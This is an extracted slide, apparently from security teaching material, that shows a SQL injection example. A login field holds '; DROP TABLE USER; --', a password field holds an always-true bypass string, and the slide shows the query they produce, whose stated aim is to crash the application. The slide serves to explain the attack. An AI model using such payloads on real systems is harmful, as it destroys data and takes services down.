

# More Example (5)
User ID:  ` ; DROP TABLE USER ; --
Password: `OR ``=`

select USERID from USER where USERID = `` ; DROP TABLE USER ; -- ` and PWD = ``OR ``=``

I will not try to get any information, I just wan to bring the application down.